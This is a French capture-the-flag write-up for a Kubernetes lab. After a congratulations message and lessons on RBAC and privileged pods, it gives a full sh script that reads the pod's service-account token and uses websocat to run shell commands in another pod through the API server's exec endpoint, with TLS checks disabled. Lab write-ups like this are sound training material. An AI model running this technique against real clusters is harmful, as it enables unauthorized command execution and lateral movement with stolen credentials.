 # Félicitations !

Vous avez réussi à naviguer dans le cluster, à identifier les failles de sécurité et à extraire le flag secret !

Ce challenge a mis en évidence l'importance :

*   De la configuration RBAC (ne pas donner trop de droits, surtout au Service Account par défaut).
*   De la sécurité des pods (éviter les pods `privileged` autant que possible).
*   De l'audit régulier des configurations de sécurité dans votre cluster.

Vous avez démontré de solides compétences en exploration et en compréhension des mécanismes internes de Kubernetes. Bravo !


Solution avec websocat 


```sh
#!/bin/sh

# Script POSIX sh pour exécuter une commande dans un pod Kubernetes via WebSocket,
# en utilisant jq pour l'encodage URL.

# --- Configuration ---
# Récupérer le token du service account
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
# Chemin vers le certificat CA (même si --insecure est utilisé)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
# Adresse de l'API Server Kubernetes
APISERVER=https://172.30.1.2:6443
# Namespace cible
NAMESPACE=awcc
# Nom du Pod cible
POD_NAME="legacy-internal-db"

# --- Commande à exécuter ---
# L'exécutable
COMMAND_EXEC="/bin/sh"
# Premier argument de l'exécutable (-c pour sh)
COMMAND_ARG1="-c"
# Deuxième argument : la commande réelle à exécuter par le shell
COMMAND_ARG2="ls -l /data"

# --- Encodage URL avec jq ---
# Vérifier si jq est disponible
if ! command -v jq > /dev/null; then
    echo "Erreur: La commande 'jq' est requise par ce script mais n'a pas été trouvée dans le PATH." >&2
    exit 1
fi

# Fonction pour encoder une chaîne en utilisant jq (fonctionne en sh)
urlencode_jq() {
    printf %s "$1" | jq -sRr @uri
}

# Encoder chaque partie de la commande
ENCODED_EXEC=$(urlencode_jq "$COMMAND_EXEC")
ENCODED_ARG1=$(urlencode_jq "$COMMAND_ARG1")
ENCODED_ARG2=$(urlencode_jq "$COMMAND_ARG2")

# --- Construction de l'URL WSS ---
# Extraire l'hôte de l'APISERVER de manière portable (compatible sh)
APIHOST=$(printf %s "$APISERVER" | sed 's|https://||')

# Construire l'URL en ajoutant les paramètres 'command' séparément
WSS_URL="wss://${APIHOST}/api/v1/namespaces/${NAMESPACE}/pods/${POD_NAME}/exec"
WSS_URL="${WSS_URL}?command=${ENCODED_EXEC}"  
WSS_URL="${WSS_URL}&command=${ENCODED_ARG1}"  
WSS_URL="${WSS_URL}&command=${ENCODED_ARG2}"
WSS_URL="${WSS_URL}&stdin=false"
WSS_URL="${WSS_URL}&stdout=true"
WSS_URL="${WSS_URL}&stderr=true"
WSS_URL="${WSS_URL}&tty=false"

# Afficher l'URL construite (pour le débogage)
echo "URL Construite : ${WSS_URL}"

# --- Exécution avec websocat ---
echo "Tentative avec websocat..."
websocat -v \
  --header "Authorization: Bearer ${TOKEN}" \
  --header "X-Stream-Protocol-Version: v4.channel.k8s.io" \
  --header "Sec-WebSocket-Protocol: v4.channel.k8s.io" \
  --insecure \
  "${WSS_URL}"

# Vérifier le code de sortie de websocat (optionnel)
exit_code=$?
if [ "$exit_code" -ne 0 ]; then
  echo "websocat a échoué avec le code de sortie: $exit_code" >&2
fi

exit "$exit_code"

```

